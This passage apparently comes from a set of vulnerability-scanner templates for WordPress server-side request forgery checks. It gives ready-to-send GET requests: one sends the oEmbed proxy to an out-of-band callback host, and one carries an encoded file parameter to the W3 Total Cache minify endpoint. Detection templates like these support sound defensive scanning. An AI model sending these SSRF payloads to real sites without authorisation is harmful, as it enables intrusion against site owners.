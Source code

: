 ### Matchers

**Type - word**

- part - interactsh_protocol
- words
  1. http

---

# Wordpress Oembed Proxy SSRF

- severity - medium
- tags - wordpress,ssrf,oast,proxy

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-json/oembed/1.0/proxy?url=http://{{interactsh-url}}/

### Matchers

**Type - word**

- part - interactsh_protocol
- words
  1. http

---

# Wordpress W3C Total Cache \<= 0.9.4 - Server Side Request Forgery (SSRF)

## Description

- The W3 Total Cache WordPress plugin was affected by an Unauthenticated Server Side Request Forgery (SSRF) security vulnerability.

- severity - medium
- tags - wordpress,wp-plugin,cache,ssrf,wp

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/w3-total-cache/pub/minify.php?file=yygpKbDS1y9Ky9TLSy0uLi3Wyy9KB3NLKkqUM4CyxUDpxKzECr30_Pz0nNTEgsxiveT8XAA.css
